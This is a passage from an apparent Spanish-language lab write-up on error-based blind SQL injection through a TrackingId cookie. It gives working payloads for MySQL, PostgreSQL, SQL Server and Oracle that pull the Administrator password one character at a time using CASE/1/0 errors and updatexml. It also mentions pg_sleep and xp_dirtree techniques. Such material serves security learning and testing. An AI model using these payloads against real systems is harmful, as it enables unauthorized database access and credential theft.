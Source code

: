 **Por qué comparamos con `='a'` al final?**

* Para encajar la subconsulta dentro de la expresión booleana/comparativa que la aplicación espera. La aplicación puede tener algo como `WHERE TrackingId = '<input>'` — al inyectar `AND (<subquery>)='a'` nos aseguramos de que la sintaxis global sea válida si no ocurre el error.

---

## 4) Variantes y alternativas por SGBD

### 4.1 MySQL

* `CASE` funciona; `DIV` o `1/0` provoca error de división por cero.
* También se pueden usar funciones XML que provoquen error: `updatexml(1,concat(0x7e,(select database())),1)` → error con el contenido.

**Ejemplo MySQL** (cookie):

```
TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1)='s') THEN 1/0 ELSE 'a' END)='a
```

Alternativa (error-based extraction using `updatexml`):

```
' AND updatexml(1,concat(0x7e,(SELECT database())),1) --
```

### 4.2 PostgreSQL

* `CASE` también disponible; `1/0` produce división por cero. Uso de `pg_sleep()` para delays es otra técnica.
* Usar `RAISE` desde funciones PL/pgSQL no es práctico desde una simple consulta; preferir `CASE`/`1/0` o pruebas booleanas.

### 4.3 SQL Server (T-SQL)

* No es común hacer `1/0` dentro de `SELECT CASE` en T-SQL; sin embargo se puede forzar error con `convert(int, 'string')` o usar `RAISERROR` en un exec.
* Ejemplo de forzado de error: `SELECT CASE WHEN (cond) THEN CONVERT(int,'notint') ELSE 'a' END` → conversión falla.
* Otra opción potente: `IF (cond) RAISERROR('err',16,1);` pero RAISERROR puede necesitar un contexto distinto (no siempre usable directamente en una subquery). También se usan `master..xp_dirtree` para OAST.

### 4.4 Oracle

* Oracle soporta `CASE`/`CASE WHEN` y `1/0` generaría `ORA-01476: divisor equal to zero` si se usa en un contexto numérico. Sin embargo Oracle usa `SUBSTR` en lugar de `SUBSTRING`.
* En Oracle, para seleccionar literales sin tabla se usa `FROM DUAL`.

**Ejemplo Oracle**:

```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='Administrator'),1,1)='s') THEN 1/0 ELSE 'a' END FROM DUAL)='a
```
